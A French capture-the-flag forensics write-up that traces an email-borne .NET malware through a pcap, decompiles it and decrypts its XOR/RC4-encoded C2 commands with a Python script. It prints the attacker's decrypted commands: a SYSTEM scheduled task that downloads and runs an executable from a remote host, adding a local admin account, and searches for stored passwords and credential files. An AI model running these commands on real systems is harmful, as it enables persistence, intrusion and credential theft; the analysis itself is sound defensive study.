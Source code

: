 # Silent Trap
### A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

Le challenge commence avec un fichier **pcap**, en l'éxaminant rapidement, c'est un échange de mail.

### Flag 1 : What is the subject of the first email that the victim opened and replied to ?

Le sujet de l'email peut être identifié sur le HTTP Stream 4 :   

![wireshark1](https://github.com/user-attachments/assets/4912275e-7eec-40b0-a9f0-e22b95711e61)

### Flag 2 : Question 2: On what date and time was the suspicious email sent ?

En continuant de chercher dans les HTTP Stream, on tombe là dessus sur le 8 :   

![wiresahrk2](https://github.com/user-attachments/assets/58814647-dba8-4678-ab40-14953ef00c81)
On y voit la date du mail, et l'envoi du fichier `Eldoria_Balance_Issue_Report.zip`.

### Flag 3 : What is the MD5 hash of the malware file ?

On repère alors le fameux ZIP envoyé : 

![wireshark3](https://github.com/user-attachments/assets/4aa0c099-ed5c-44cb-a8ef-7be54c912184)

On exporte alors ce fichier sur Wireshark, mais l'archive est protégé par un mot de passe (merci ):   

![zip mdp](https://github.com/user-attachments/assets/6042393e-d16d-499b-ac1f-21bc450eaa27)

On continue alors de fouiller un peu les mails, et on trouve l'échange de mails avec le mot de passe :   

![wireshark5](https://github.com/user-attachments/assets/6cd57513-f3cb-4efd-885f-eea85ca43dd5)

On peut donc avoir accès à l'archive zip et en extraire `Eldoria_Balance_Issue_Report.pdf.exe` après l'avoir clean-up avec :
```bash
dd if=Eldoria.zip of=clean2.zip bs=1 skip=1259
 ```
Puis on peut récupérer son hash md5 :   
 
![extraire](https://github.com/user-attachments/assets/75a48aab-0a4a-447f-8207-8f3363ba4ca4)
![md5](https://github.com/user-attachments/assets/ea3af082-033e-45f6-8b8b-b4d998318001)

### Flag 4 :  What credentials were used to log into the attacker’s mailbox ?

Donc maintenant, nous avons accès au malware qui est un `.NET executable`. On le déssassemble grâce à **dotPeek**. 

Dans la premère fonction visible, on peut directement y trouver les identifiants, aussi visibles dans les trames wireshark.  

![creds](https://github.com/user-attachments/assets/dfee5cd9-c035-4a07-a0bb-955f2eec7db1)

### Flag 5 :  What is the name of the task scheduled by the attacker ?

Maintenant il nous faut comprendre comment l'encryption marche, pour pouvori décrypter le reste des trames dans la capture Wireshark. Ici on peut comprendre un peu plus ce qu'il ce passe :   

![fonctionnement file](https://github.com/user-attachments/assets/8da47bde-ce7e-4e6c-a684-5a7a6074b9cd)

Le malware essaye de se connecter à un serveur mail, pour ensuite y éxécuter des commandes CMD encodés en XOR et base64, probablement pour en extraire des fichiers à ce que montre les trames Wireshark.
En fouillant encore un peu, on trouve alors le fonctionnement de l'encryption, et on trouve la clé XOR, qui elle même est encrypté avec RC4.

Au passage, merci à @Kaddate pour m'aider à comprendre parfaitement tout ce qu'il ce passait dans ce programme :D

 ![xor key](https://github.com/user-attachments/assets/44b4dc62-28bc-4990-b582-8b9678c99c4b)
 ![exor](https://github.com/user-attachments/assets/0615f2a4-9ca1-4bc6-bc6f-7cd46b8ce7bc)

Maintenant qu'on à toutes ces informations, on peut décrypter les commandes CMD que l'attaquant éxécute sur le serveur en extrayant toutes les trams IMF après un FETCH de l'attaquant :   

![ttt](https://github.com/user-attachments/assets/76911b01-abf9-4dfd-bf26-fc4e65f835b3)

Puis, avec ce code : 
```python
import base64

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])

    return bytes(out)

b64_data = """<data>"""
key = bytes([<xor_key>]) 

data = base64.b64decode(b64_data)
decrypted = rc4(key, data)

print(decrypted.decode(errors="ignore"))
```
(Merci beaucoup à @n0rozapy pour l'aide sur ce script)

On peut désormais décrypter toutes les commandes que l'attaquant envoi, on obtient alors : 
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn

schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password"

more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
more C:\backups\credentials.txt
whoami /priv
tasklist /v
```
Le nom de la tâche éxéctuée est **Synchronization**.

### Flag What is the API key leaked from the highly valuable file discovered by the attacker ?
On voit ici que l'attaquant fouille le fichier `credentials.txt`, on voit clairement sur Wireshark la réponse du serveur, donc le fichier en question :   

![api key](https://github.com/user-attachments/assets/88b839db-e126-4565-a11b-261f94ca1e84)

On exporte tout ça, puis on le passe dans le même script python que pour les commandes CMD. Ce qui nous donne :   

![api key finale](https://github.com/user-attachments/assets/47c51d14-206e-45da-a107-79f1f823d73b)

Et voilà, 6 flags sur 6. 
